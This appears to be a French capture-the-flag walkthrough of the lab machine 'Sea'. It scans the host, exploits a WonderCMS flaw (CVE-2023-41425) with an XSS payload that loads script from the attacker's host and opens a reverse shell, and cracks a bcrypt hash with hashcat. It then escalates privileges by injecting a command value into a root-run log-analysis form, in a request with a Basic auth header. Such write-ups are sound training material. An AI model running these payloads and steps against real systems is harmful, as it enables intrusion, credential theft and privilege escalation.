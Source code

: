   # Sea

	echo "10.10.11.28 sea.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.28 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.28 -oN nmap.txt
	feroxbuster --silent -u http://sea.htb
	
Scans classiques.

    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))


Site web classique avec juste quelques sous-dossiers (et une page contact.php) : 

> http://sea.htb/plugins     
> http://sea.htb/data     
> http://sea.htb/messages     
> http://sea.htb/themes     

    feroxbuster --silent -u http://sea.htb/themes/
    ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt


http://sea.htb/themes/bike/README.md => Thème WonderCMS

Il existe un CVE : https://github.com/prodigiousMind/CVE-2023-41425

    git clone https://github.com/duck-sec/CVE-2023-41425
    rlwrap nc -nvlp 9999
    python3 exploit.py -u http://sea.htb/loginURL -lh 10.10.16.50 -lp 9999 -sh 10.10.16.50 -sp 8000
    
La page contact.php permet justement d'envoyer un site web à l'administrateur, on pourra utiliser ce champ pour mettre le payload XSS : 

    http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.16.50:8000/xss.js"></script><form+action="

On reçoit bien un shell en tant que www-data.

On trouve ensuite un hash dans /var/www :

    cat /var/www/sea/data/database.js 
    
Ce hash est facilement cassable : 

    hashid -m '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q'
    hashcat -a 0 -m 3200  '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' ~/wordlists/rockyou.txt
    
On voit deux utilisateurs dans /home : amay et geo.
Le mot de passe fonctionne pour amay : 

    ssh amay@10.10.11.28 
    cat user.txt

## Élévation de privilèges

    netstat -pentula 
    
Site web interne : 

    ssh -L 8081:localhost:8080 amay@10.10.11.28
    firefox http://localhost:8081/

Les credentials trouvés précédemment fonctionnent.

Il y a une fonction d'analyse des logs où l'on peut spécifier le fichier. Elle semble marcher en tant que root donc on peut l'utiliser pour lire le flag. Il semble toutefois y avoir un filtre à casser. 

Requête finale : 

    POST / HTTP/1.1
    Host: localhost:8081
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 40
    Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==

    log_file=/root/root.txt;abc&analyze_log=
